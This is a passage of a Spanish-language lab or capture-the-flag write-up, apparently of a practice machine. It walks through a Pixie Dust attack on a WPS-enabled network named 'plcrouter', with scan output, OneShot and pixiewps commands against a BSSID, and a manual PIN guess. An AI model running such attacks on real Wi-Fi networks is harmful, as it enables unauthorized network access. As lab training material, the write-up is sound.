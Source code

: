 ```bash
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0 
        RSN:    * Version: 1
                * Group cipher: CCMP
                * Pairwise ciphers: CCMP
                * Authentication suites: PSK
                * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                * current operating class: 81
        Extended capabilities:
                * Extended Channel Switching
                * SSID List
                * Operating Mode Notification
        WPS:    * Version: 1.0
                * Wi-Fi Protected Setup State: 2 (Configured)
                * Response Type: 3 (AP)
                * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                * Manufacturer:  
                * Model:  
                * Model Number:  
... [snip]
```

Parece que tenemos una red configurada con WPS llamada `plcrouter` disponible para conectarnos, viendo el cifrado ya se puede evidenciar que está protegida por contraseña. Veamos como podemos burlar la protección.

Existe un ataque Wireless llamado Pixie Dust que se aprovecha del hecho de que la seguridad del protocolo WPS en cuanto a la autenticación contiene una vulnerabilidad en la que; si los primeros cuatro digitos del PIN están mal te dirá un error, pero si son los correctos te dirá otro. Herramientas como Reaver se aprovechan de esto para obtener el PIN del WPS completo y de ahí obtener la contraseña del WiFi.

Yo voy a hacer uso de un script Python llamado [OneShot](https://github.com/fulvius31/OneShot), que tiene muy pocas dependencias, lo único que tenemos que instalar para que funcione es [pixiewps](https://github.com/wiire-a/pixiewps/releases/tag/v1.4.2) tal como lo indica el README. Al instalar esta dependencia y subir el oneshot a la máquina ya lo podremos usar:

```bash
root@attica04:/tmp# python3 shot.py
usage: shot.py [-h] -i INTERFACE [-b BSSID] [-s SSID] [-p PIN] [-K] [-F] [-X]
               [-B] [--pbc] [-d DELAY] [-w] [--iface-down]
               [--vuln-list VULN_LIST] [-l] [-r] [--mtk-wifi] [-v]
shot.py: error: the following arguments are required: -i/--interface
```

Si probamos a darle con la lista de pins que tiene por defecto no nos logrará descubrir el PIN, pero viendo que tiene una opción para darle el PIN manualmente, siendo curiosos si le damos combinaciones típicas como `12345678` nos dirá que la primera parte del PIN es válida:

```bash
root@attica04:/tmp# python3 shot.py -i wlan0 -p 12345678 -K -b 02:00:00:00:01:00
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345678'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: 2E1A64EBCD901945E70E6F64A7061D7E
[*] Sending WPS Message M2…
```